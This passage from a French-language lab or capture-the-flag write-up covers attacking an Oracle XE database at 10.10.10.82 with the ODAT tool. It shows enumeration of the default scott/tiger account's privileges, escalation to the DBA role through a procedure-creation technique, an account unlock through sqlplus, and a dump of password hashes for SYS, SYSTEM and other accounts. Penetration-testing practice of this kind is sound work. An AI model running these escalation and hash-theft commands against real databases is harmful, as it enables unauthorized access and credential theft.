 La première chose à faire est de passer notre compte *SCOTT* en DBA. Ce compte ne l'est pas mais au vu de ses privilèges c'est tout comme :  

```plain
LD_LIBRARY_PATH=/opt/oracle/instantclient_12_2/ ./odat.py privesc -s 10.10.10.82 -U scott -P tiger -d XE --get-privs

[1] (10.10.10.82:1521): Get system privileges and roles of current Oracle user
- role: CONNECT
	- system privege: CREATE CLUSTER
	- system privege: CREATE INDEXTYPE
	- system privege: CREATE OPERATOR
	- system privege: CREATE PROCEDURE
	- system privege: CREATE SEQUENCE
	- system privege: CREATE SESSION
	- system privege: CREATE TABLE
	- system privege: CREATE TRIGGER
	- system privege: CREATE TYPE
- role: RESOURCE
	- system privege: CREATE CLUSTER
	- system privege: CREATE INDEXTYPE
	- system privege: CREATE OPERATOR
	- system privege: CREATE PROCEDURE
	- system privege: CREATE SEQUENCE
	- system privege: CREATE SESSION
	- system privege: CREATE TABLE
	- system privege: CREATE TRIGGER
	- system privege: CREATE TYPE
```

Parmi les techniques d'escalade de privilèges Oracle supportées par ODAT l'une correspond à l'utilisation de CREATE PROCEDURE :  

```plain
LD_LIBRARY_PATH=/opt/oracle/instantclient_12_2/ ./odat.py privesc -s 10.10.10.82 -U scott -P tiger -d XE --dba-with-execute-any-procedure --sysdba

[1] (10.10.10.82:1521): Grant DBA role to current user with CREATE/EXECUTE ANY PROCEDURE method
[+] The DBA role has been granted to this current user
```

J'ai lu sur le web qu'il fallait parfois déverrouiller le compte. Pour cela il faut se connecter avec *sqlplus* (*sqlplus scott/tiger@10.10.10.82/XE*) et rentrer la commande suivante (le début est bien sûr l'invite) :  

```plain
SQL> alter user scott account unlock;
```

On peut alors tester certaines commandes comme le *passwordstealer* :  

```plain
LD_LIBRARY_PATH=/opt/oracle/instantclient_12_2/ ./odat.py passwordstealer -s 10.10.10.82 -d XE -U scott -P tiger  --get-passwords 

[1] (10.10.10.82:1521): Try to get Oracle hashed passwords
[+] Here are Oracle hashed passwords (some accounts can be locked):
SYS; FBA343E7D6C8BC9D; S:9665BEDD55BCDB06121B34917713A19F7C3AC2F34554781395D2560B1D1D
SYSTEM; B5073FE1DE351687; S:486D06A8C62E20F7BDE616E55889CD0A68AB8E6C7FCB86D16CB576441467
OUTLN; 4A3BA55E08595C81; S:142AD444D8A63983FF69C77DBFD3E60947C14237AEC71031E24F5228D44C
DIP; CE4A36B8E06CA59C; S:1E4C37D0E8DC2E556D3C02A961ACEF1500B315D076BE13E578D1A28FC757
ORACLE_OCM; 5A2E026A9157958C; S:1575D1C89A1AACFE161ED788D2DC59CF6C57AE3B6CCC341D831AAF5BC447
DBSNMP; E066D214D5421CCC; S:59354E99120C523F77232A8CCFDE5E780591FCE14109EEE2C86F4A9B4E8F
APPQOSSYS; 519D632B7EE7F63A; S:4237CCB702887B049107EE6D13C312123F40E3F51208B2B70D6DA92E621D
CTXSYS; D1D21CA56994CAB6; S:3548FDA49F84F2F7ECE4635BA0FD714EC2446723074ED6167F1CD9B6EDFB
XDB; E76A6BD999EF9FF1; S:88D6BE2B593143BD5AE5185C564826F9213E71361230D3360E36C3FF55D2
ANONYMOUS; anonymous; None
XS$NULL; DC4FCC8CB69A6733; S:6C4F97FF654AE30BCD9BDBB3007EF952B5943F0A9ED491455E9FB185D8A1
```